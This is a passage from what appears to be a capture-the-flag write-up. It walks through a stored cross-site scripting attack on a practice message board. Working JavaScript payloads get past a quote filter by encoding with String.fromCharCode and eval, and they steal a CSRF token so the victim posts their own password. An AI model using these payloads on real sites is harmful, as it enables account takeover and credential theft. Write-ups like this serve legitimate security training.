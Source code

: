 There are still a couple of hurdles to get through.  One is that for security purposes, all user input is filtered for quotes:

``` ruby
def self.safe_insert(table, key_values)
  key_values.each do |key, value|
  # Just in case people try to exfiltrate
  # level07-password-holder's password
  if value.kind_of?(String) && 
      (value.include?('"') || value.include?("'"))
    raise "Value has unsafe characters"
  end
end
```

Another is that in order to prevent CSRF attackers, there is a CSRF token that is required with every request.  

Let's leave the quotes issue for now and get around the CSRF token. We can get a correct CSRF token the same way that we got the user's password, by selecting the HTML element that contains the CSRF token.  The token is contained in a hidden input fields, so our injection becomes:

``` html
</script><script>
  $.get('user_info', function (data) {
    $.post('ajax/posts', 
      { 
        title:$('td', data)[1].innerHTML, 
        body:'EMPTY', 
        _csrf:$('input[name="_csrf"]') 
       });
   });
</script><script>
```

This of course won't work because the quote filter will prevent us from posting a message will all of those quotes.  We can get around this by encoding each character in our javascript as its ASCII value and then running it like `eval(String.fromCharCode(67,61//...)`.  I used [this](http://www.wocares.com/noquote.php) utility to help me encode everything.

The above payload, when encoded with `String.fromCharCode` still doesn't work, and it took me a long time to figure out why.  

As it turns out, the target user's first post gives a big hint
> One great feature of Streamer is that no password resets are needed. I, for
> example, have a very complicated password **(including apostrophes, quotes, you
> name it!)**. But I remember it by clicking my name on the right-hand side and
> seeing what my password is.

The password contains some quotes so the target user won't be able to post it in a message.  We have to replace the quotes with something else.  The correct javascript is
``` javascript
$.get('user_info', function (data) {
  $.post('ajax/posts', 
    { 
      title:$('td', data)[1].innerHTML.replace(/"/g, "&quot;"), 
      body:'EMPTY', 
      _csrf:$('input[name="_csrf"]') 
    });
});
```
And when the above is encoded with `String.fromCharCode` and put inside a `<script>` tag, the target user will post their password when viewing our post:
